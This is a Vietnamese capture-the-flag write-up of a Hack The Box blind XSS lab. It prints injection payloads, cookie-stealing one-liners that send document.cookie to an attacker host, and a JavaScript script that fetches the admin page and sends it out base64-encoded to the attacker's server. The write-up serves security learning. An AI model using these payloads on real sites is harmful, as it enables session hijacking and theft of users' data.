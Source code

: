 ```yaml
---
title: BlindXSS from HTB
tags: write-up HTB blog
---
```


Đây là cách mình giải một lab BlindXSS của HTB :3

# Detect vị trí dính lỗi

## Dựng server hứng dữ liệu

```bash
php -S 0.0.0.0:8888
```

## Fuzz lần lượt payload vào các vị trí có thể input được 

Payload mặc định đầu tiên:

```
'"/><img src="http://OUR_IP:PORT/param-name"
```

![image](https://hackmd.io/_uploads/rJrSBupj1l.png)

Check log 

![image](https://hackmd.io/_uploads/SkCYIdpiJe.png)

Xác định vị trí dính lỗi là param `url`

# Script.js

Ý tưởng ở đây là sẽ gửi payload có dạng:

```
'"/><script src="http://OUR_IP:PORT/script.js"></script>
```

Sau khi payload được thực thi, victim-server sẽ load file `script.js` từ attacker-server và tiếp thực thi các nội dung có trong file script.js 

Ưu điểm:
- Dễ chỉnh sửa payload, ta chỉ cần thay đổi nội dung file script.js chứ không cần phải viết payload rổi encode các thứ gửi kèm trong URI

Nhược điểm:
- Cách này có thể bị chặn =))

![Screenshot 2025-03-11 at 15.32.02](https://hackmd.io/_uploads/HJGMrdTi1x.png)

Nội dung của file **script.js**:

```
document.location='http://OUR_IP:PORT/index.php?c='+document.cookie;
```

Hoặc

```
new Image().src='http://OUR_IP:PORT/index.php?c='+document.cookie;
```

Kết quả:

![image](https://hackmd.io/_uploads/Bkw2-_RsJl.png)

Lấy được cookie của admin

# Lấy flag 

Truy cập vào trang **login.php** và set cookie thành cookie ta vừa lấy được. Có thể set bằng console như sau:

![image](https://hackmd.io/_uploads/HyBcG_RiJg.png)

Reload lại trang web, thành công vào được trang admin và nhìn thấy flag

![image](https://hackmd.io/_uploads/B1LofuCske.png)

# Thăm dò admin page, lấy flag mà không cần biết cookie

Đây có thể gọi là trường hợp CSRF tức là server vẫn thực thi mã JavaScript nhưng do server có cấu hình HttpOnly -> không thể đọc document.cookie bằng JS được.

Nên ý tưởng lúc này sẽ là tìm cách để victim-server gửi HTML content về cho attacker-server. Giúp attacker có thể xem được nội dung của trang admin 

Và vì đã biết flag nằm ở login.php

Nên ý tưởng sẽ đổi thành 
- Gửi payload đến server
- Server thực thi payload request đến script.js nằm trên máy tấn công. 
- Server thực thi script.js, gọi đến trang login.php (Do request được thực hiện bởi victim-server nên sẽ có đính kèm admin cookie)
- Lấy HTML content của login.php, encode base64 rồi gửi lại cho attacker server 


```javascript
// script.js

// Chuyển đổi string sang Base64
function encodeBase64(str) {
    return btoa(unescape(encodeURIComponent(str)));
}

// Hàm lấy HTML, lọc các dòng chứa "HTB", và gửi về server 12.12.12.12
async function fetchAndSendHTBLines() {
    try {
        const response = await fetch('http://10.129.64.169/hijacking/login.php');
        const htmlContent = await response.text();

        // Tách HTML thành các dòng và chỉ lấy những dòng chứa 'HTB'
        //const lines = htmlContent.split('\n');
        //const htbLines = lines.filter(line => line.includes('HTB')).join('\n');

        // Encode nội dung tìm được sang Base64
        const encodedData = encodeBase64(htmlContent);

        // Gửi nội dung về server 12.12.12.12
        serverURL = `http://10.10.14.48:8888/save?data=${encodeURIComponent(encodedData)}`;

        await fetch(serverURL, {
            method: 'GET',
            mode: 'no-cors' // tránh vấn đề CORS
        });

        console.log('Đã gửi HTML content thành công!');
    } catch (error) {
        console.error('Có lỗi:', error);
    }
}

// Thực thi function
fetchAndSendHTBLines();
```

Để debug cho nhanh, ta có thể sử dụng luôn console có cookie mà ta có kiếm được từ trước đó để test code 

![image](https://hackmd.io/_uploads/ByUWktRsJg.png)

Copy toàn bộ script.js vào console và gõ enter. Debug sửa code cho đến khi thành công gửi được data về cho server 

Sau khi chỉnh sửa script.js, ta có thể thử gửi lại payload đến admin thông qua tham số `url` và kiểm tra log

![image](https://hackmd.io/_uploads/S1NOgK0jkg.png)

Đem base64 data đi decode

![image](https://hackmd.io/_uploads/BJS0eF0jJx.png)

Vậy là ta đã đọc được nội dung file admin và flag mà không cần biết cookie.

Mình biết thực tế sẽ phức tạp hơn nhiều nhưng đây là một study case để chứng minh rằng sẽ luôn có nhiều hơn một cách khai thác, một cách giải quyết vấn đề, cũng như luôn có nhiều hơn một cách tấn công. 

Think out side the box and be careful :3 

**HẾT**
